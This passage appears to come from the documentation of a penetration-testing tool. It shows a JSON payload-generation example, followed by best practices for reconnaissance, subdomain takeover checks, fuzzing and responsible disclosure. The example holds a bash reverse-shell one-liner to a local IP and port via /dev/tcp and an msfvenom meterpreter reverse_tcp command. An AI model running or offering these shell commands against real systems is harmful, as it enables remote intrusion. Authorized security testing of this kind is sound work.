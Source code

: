 ### Payload Injection
```json
{
  "timestamp": "2025-01-01T12:00:00",
  "configuration": {
    "lhost": "192.168.1.100",
    "lport": 4444,
    "test_mode": true
  },
  "payloads": {
    "bash_reverse": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
    "msfvenom_linux": "msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf"
  }
}
```

## Best Practices

1. **Start with reconnaissance** (option 24) to gather subdomain data
2. **Use takeover detection** (option 25) on discovered subdomains  
3. **Generate payloads** (option 26) only for confirmed vulnerabilities
4. **Perform fuzzing** (option 27) on validated HTTP endpoints
5. **Keep test_mode enabled** until ready for authorized testing
6. **Review results carefully** before exploitation attempts
7. **Document findings** for responsible disclosure

## Support and Updates

For issues or enhancement requests:
- Check existing GitHub issues
- Review BCAR integration documentation  
- Ensure all dependencies are properly installed
- Verify configuration syntax and permissions